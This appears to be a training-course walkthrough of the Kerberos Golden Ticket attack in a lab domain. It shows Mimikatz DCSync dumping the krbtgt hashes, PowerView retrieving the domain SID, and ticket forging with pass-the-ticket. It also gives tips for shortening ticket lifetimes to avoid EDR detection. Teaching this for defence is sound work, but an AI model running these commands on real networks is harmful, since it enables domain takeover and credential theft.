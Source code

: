 # Golden Ticket

## Attack

To perform the `Golden Ticket` attack, we can use `Mimikatz` with the following arguments:

- `/domain`: The domain's name.
- `/sid`: The domain's SID value.
- `/rc4`: The password's hash of `krbtgt`.
- `/user`: The username for which `Mimikatz` will issue the ticket (Windows 2019 blocks tickets if they are for inexistent users.)
- `/id`: Relative ID (last part of `SID`) for the user for whom `Mimikatz` will issue the ticket.

Additionally, advanced threat agents mostly will specify values for the `/renewmax` and `/endin` arguments, as otherwise, `Mimikatz` will generate the ticket(s) with a lifetime of 10 years, making it very easy to detect by EDRs:

- `/renewmax`: The maximum number of days the ticket can be renewed.
- `/endin`: End-of-life for the ticket.

First, we need to obtain the password's hash of `krbtgt` and the `SID` value of the Domain. We can utilize `DCSync` with Rocky's account from the previous attack to obtain the hash:

Golden Ticket

```
C:\WINDOWS\system32>cd ../../../

C:\>cd Mimikatz

C:\Mimikatz>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::dcsync /domain:eagle.local /user:krbtgt
[DC] 'eagle.local' will be the domain
[DC] 'DC1.eagle.local' will be the DC server
[DC] 'krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 07/08/2022 11.26.54
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: db0d0630064747072a7da3f7c3b4069e
    ntlm- 0: db0d0630064747072a7da3f7c3b4069e
    lm  - 0: f298134aa1b3627f4b162df101be7ef9

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : b21cfadaca7a3ab774f0b4aea0d7797f

* Primary:Kerberos-Newer-Keys *
    Default Salt : EAGLE.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1335dd3a999cacbae9164555c30f71c568fbaf9c3aa83c4563d25363523d1efc
      aes128_hmac       (4096) : 8ca6bbd37b3bfb692a3cfaf68c579e64
      des_cbc_md5       (4096) : 580229010b15b52f

* Primary:Kerberos *
    Default Salt : EAGLE.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 580229010b15b52f

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  b4799f361e20c69c6fc83b9253553f3f
    02  510680d277587431b476c35e5f56e6b6
    03  7f55d426cc922e24269610612c9205aa
    04  b4799f361e20c69c6fc83b9253553f3f
    05  510680d277587431b476c35e5f56e6b6
    06  5fe31b1339791ab90043dbcbdf2fba02
    07  b4799f361e20c69c6fc83b9253553f3f
    08  7e08c14bc481e738910ba4d43b96803b
    09  7e08c14bc481e738910ba4d43b96803b
    10  b06fca48286ef6b1f6fb05f08248e6d7
    11  20f1565a063bb0d0ef7c819fa52f4fae
    12  7e08c14bc481e738910ba4d43b96803b
    13  b5181b744e0e9f7cc03435c069003e96
    14  20f1565a063bb0d0ef7c819fa52f4fae
    15  1aef9b5b268b8922a1e5cc11ed0c53f6
    16  1aef9b5b268b8922a1e5cc11ed0c53f6
    17  cd03f233b0aa1b39689e60dd4dbf6832
    18  ab6be1b7fd2ce7d8267943c464ee0673
    19  1c3610dce7d73451d535a065fc7cc730
    20  aeb364654402f52deb0b09f7e3fad531
    21  c177101f066186f80a5c3c97069ef845
    22  c177101f066186f80a5c3c97069ef845
    23  2f61531cee8cab3bb561b1bb4699cb9b
    24  bc35f896383f7c4366a5ce5cf3339856
    25  bc35f896383f7c4366a5ce5cf3339856
    26  b554ba9e2ce654832edf7a26cc24b22d
    27  f9daef80f97eead7b10d973f31c9caf4
    28  1cf0b20c5df52489f57e295e51034e97
    29  8c6049c719db31542c759b59bc671b9c

```

![https://academy.hackthebox.com/storage/modules/176/A8/krbtgt.png](https://academy.hackthebox.com/storage/modules/176/A8/krbtgt.png)

We will use the `Get-DomainSID` function from [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) to obtain the SID value of the Domain:

Golden Ticket

```powershell
PS C:\Users\bob\Downloads> powershell -exec bypass

Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\bob\Downloads> . .\PowerView.ps1
PS C:\Users\bob\Downloads> Get-DomainSID
S-1-5-21-1518138621-4282902758-752445584

```

![https://academy.hackthebox.com/storage/modules/176/A8/sid.png](https://academy.hackthebox.com/storage/modules/176/A8/sid.png)

Now, armed with all the required information, we can use `Mimikatz` to create a ticket for the account `Administrator`. The `/ptt` argument makes `Mimikatz` [pass the ticket into the current session](https://adsecurity.org/?page_id=1821#KERBEROSPTT):

Golden Ticket

```
C:\Mimikatz>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # kerberos::golden /domain:eagle.local /sid:S-1-5-21-1518138621-4282902758-752445584 /rc4:db0d0630064747072a7da3f7c3b4069e /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt

User      : Administrator
Domain    : eagle.local (EAGLE)
SID       : S-1-5-21-1518138621-4282902758-752445584
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: db0d0630064747072a7da3f7c3b4069e - rc4_hmac_nt
Lifetime  : 13/10/2022 06.28.43 ; 13/10/2022 06.36.43 ; 13/10/2022 06.35.43
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ eagle.local' successfully submitted for current session

```

![https://academy.hackthebox.com/storage/modules/176/A8/kerbTicket.png](https://academy.hackthebox.com/storage/modules/176/A8/kerbTicket.png)

The output shows that `Mimikatz` injected the ticket in the current session, and we can verify that by running the command `klist` (after exiting from `Mimikatz`):

Golden Ticket

```
mimikatz # exit

Bye!

C:\Mimikatz>klist

Current LogonId is 0:0x9cbd6

Cached Tickets: (1)

#0>     Client: Administrator @ eagle.local
        Server: krbtgt/eagle.local @ eagle.local
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 10/13/2022 13/10/2022 06.28.43 (local)
        End Time:   10/13/2022 13/10/2022 06.36.43 (local)
        Renew Time: 10/13/2022 13/10/2022 06.35.43 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:

```

![https://academy.hackthebox.com/storage/modules/176/A8/injectedTicket.png](https://academy.hackthebox.com/storage/modules/176/A8/injectedTicket.png)

To verify that the ticket is working, we can list the content of the `C$` share of `DC1` using it:

Golden Ticket

```
C:\Mimikatz>dir \\dc1\c$

 Volume in drive \\dc1\c$ has no label.
 Volume Serial Number is 2CD0-9665

 Directory of \\dc1\c$

15/10/2022  08.30    <DIR>          DFSReports
13/10/2022  13.23    <DIR>          Mimikatz
01/09/2022  11.49    <DIR>          PerfLogs
28/11/2022  01.59    <DIR>          Program Files
01/09/2022  04.02    <DIR>          Program Files (x86)
13/12/2022  02.22    <DIR>          scripts
07/08/2022  11.31    <DIR>          Users
28/11/2022  02.27    <DIR>          Windows
               0 File(s)              0 bytes
               8 Dir(s)  44.947.984.384 bytes free

```

![https://academy.hackthebox.com/storage/modules/176/A8/listDC1.png](https://academy.hackthebox.com/storage/modules/176/A8/listDC1.png)